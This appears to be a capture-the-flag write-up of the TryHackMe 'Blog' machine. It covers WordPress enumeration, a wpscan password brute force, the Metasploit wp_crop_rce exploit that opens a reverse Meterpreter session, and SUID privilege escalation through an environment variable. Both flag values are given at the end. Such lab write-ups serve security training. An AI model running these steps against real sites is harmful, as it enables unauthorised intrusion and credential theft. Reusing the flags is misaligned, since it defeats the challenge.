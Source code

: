 ```yaml
---
title: "TryHackMe - Blog"
date: 2025-03-26 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [wordpress, exploitation, metasploit, brute force]

---
```


## Introduction

Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

## Reconnaissance

```console
nmap -sC -sV -Pn blog.thm  
```
```console
wpscan --url http://www.blog.thm 
```

From the scans, I learn that the WordPress version is 5.0, and I launch Metasploit in search of ready-made exploits.


```console
msfconsole
search wordpress 5.0
```

I see several potential exploits to use.


```yaml
0   exploit/multi/http/wp_crop_rce                           2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1   exploit/unix/webapp/wp_property_upload_exec              2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability
   2   exploit/multi/http/wp_plugin_fma_shortcode_unauth_rce    2023-05-31       excellent  Yes    Wordpress File Manager Advanced Shortcode 2.3.2 - Unauthenticated Remote Code Execution through shortcode
   3     \_ target: PHP                                         .                .          .      .
   4     \_ target: Unix Command                                .                .          .      .
   5     \_ target: Linux Dropper                               .                .          .      .
   6     \_ target: Windows Command                             .                .          .      .
   7     \_ target: Windows Dropper                             .                .          .      .
   8   exploit/multi/http/wp_litespeed_cookie_theft             2024-09-04       excellent  Yes    Wordpress LiteSpeed Cache plugin cookie theft
   9     \_ target: PHP In-Memory                               .                .          .      .
   10    \_ target: Unix In-Memory                              .                .          .      .
   11    \_ target: Windows In-Memory                           .                .          .      .
   12  auxiliary/scanner/http/wp_woocommerce_payments_add_user  2023-03-22       normal     Yes    Wordpress Plugin WooCommerce Payments Unauthenticated Admin Creation
   13  auxiliary/scanner/http/wp_registrationmagic_sqli         2022-01-23       normal     Yes    Wordpress RegistrationMagic task_ids Authenticated SQLi

```

In this case, I decide to use **exploit/multi/http/wp_crop_rce**. However, to run it, I will need the username and password of the user.

```yaml
Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    *yes*      The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-me
                                         tasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if pro
                                         vided)
   USERNAME                    *yes*       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


```

I use this again with **wpscan** 

```console
wpscan --url blog.thm -P /usr/share/wordlists/rockyou.txt
```

I find two users: **kwheel** and **bjoel** 


```yaml
[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

```

I will now try to obtain the password for this account using the bruteforce method. I can do this in several ways, for example by using **Hydra**, but in this case, I decided to stick with **WPScan**.

```console
wpscan --url blog.thm --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt 
```

After a short while, I manage to obtain the password using the bruteforce method.

```yaml
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie1                                                                              
Trying kwheel / westham Time: 00:01:52 <                           > (2865 / 14347257)  0.01%  ETA: ??:??:??
```

I return to Metasploit to complete the exploit configuration.

```console
> set RHOST [MACHINE_IP]
> set LHOST [MY_IP]
> set password cutiepie1
> set username kwheel
```

and I run it

```console
> exploit
```
It was successful.
```yaml
[*] Meterpreter session 1 opened (10.8.x.x:4444 -> 10.10.x.x32870) at 2025-03-26 09:00:46 -0400
```

I check if I can use commands through Meterpreter : 

```yaml
meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : blog
OS          : Linux blog 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64
Meterpreter : php/linux
```

Everything looks fine, so I proceed to the regular system shell

```console
> shell
> script -qc /bin/bash /dev/null
```

I proceed to search the users' files for flags. I find the file **user.txt** in the bjoel directory, but it is not what I'm looking for. There is also a .pdf file here


```yaml
www-data@blog:/home/bjoel$ ls
ls
Billy_Joel_Termination_May20-2020.pdf  user.txt
www-data@blog:/home/bjoel$ cat user.txt
cat user.txt
You won't find what you're looking for here.

TRY HARDER

```

I start a simple Python server on the target machine to download the .pdf file to my computer

```console
> python3 -m http.server
```

and 

```console
> wget http://blog.thm:8000/Billy_Joel_Termination_May20-2020.pdf
```
on my machine.

```yaml
--2025-03-26 09:15:11--  http://blog.thm:8000/Billy_Joel_Termination_May20-2020.pdf
Resolving blog.thm (blog.thm)... 10.10.73.119
Connecting to blog.thm (blog.thm)|10.10.73.119|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 69106 (67K) [application/pdf]
Saving to: ‘Billy_Joel_Termination_May20-2020.pdf’

Billy_Joel_Termination_May 100%[========================================>]  67.49K   160KB/s    in 0.4s    

2025-03-26 09:15:11 (160 KB/s) - ‘Billy_Joel_Termination_May20-2020.pdf’ saved [69106/69106]

```

From the email content, I learn that Billy Joel has been fired

```
You have been terminated for the following reasons:
• Repeated offenses regarding company removable media policy
• Repeated offenses regarding company Acceptable Use Policy
• Repeated offenses regarding tardiness
```

I proceed with the privilege escalation attempt. The first step is to search for SUID files that I can use for escalation.

```console
> find / -perm -u=s -type f 2>/dev/null
```

Among the list of files, my attention was drawn to :

**/usr/sbin/checker**

I try to run it

```console
> usr/sbin/checker
```

However, the program tells me that I am not an administrator

```yaml
/usr/sbin/checker
Not an Admin
```

I analyze the code using the tool **ltrace**

```yaml
> ltrace /usr/sbin/checker

getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++

```

**getenv("admin) = nil** this means that the **admin** environment variable does not exist at the moment in the process environment. I try to set the admin environment variable manually to attempt to gain administrator privileges.

```bash
export admin=true
```

And I run the program again.

I have root privileges!

I search through the files on the machine to find and read the flags.

```yaml
root@blog:/# find / -type f -name "user.txt" 2>/dev/null
find / -type f -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
```

and 

```console
find / -type f -name "root.txt" 2>/dev/null
```


<br>**user.txt :** c8421899aae571f7af486492b71a8ab7 
<br>**root.txt:**  9a0b2b618bef9bfa7ac28c1353d9f318





During my research, I found a very interesting article about exploiting WordPress sites, which I will post here for future reference.
https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/wordpress.html#xml-rpc